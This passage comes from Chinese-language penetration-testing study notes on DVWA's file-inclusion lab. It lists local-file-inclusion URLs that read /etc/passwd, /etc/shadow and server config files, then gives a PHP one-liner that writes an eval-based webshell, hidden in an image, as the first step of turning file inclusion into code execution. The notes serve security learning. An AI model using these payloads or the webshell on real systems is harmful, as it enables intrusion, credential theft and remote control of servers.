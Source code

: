 - 访问本地系统账号信息及其他敏感信息

```shell
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/passwd
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/shadow
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/php5/apache2/php.ini
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/mysql/my.cnf
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/etc/apache2/apache2.conf
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

本地文件包含结果展示：

![FileInclusionLowLFI](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusionLowLFI.png)

##### 本地文件包含+webshell

**步骤**：

1. 制作一句话图片木马 e.g.	hacker.jpg

```php
<?fputs(fopen("FileInclusion.php","w"),'<?php eval($_POST[pass]);?>')?>
```

![FileInclusion制作一句话图片木马](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusion制作一句话图片木马.png)
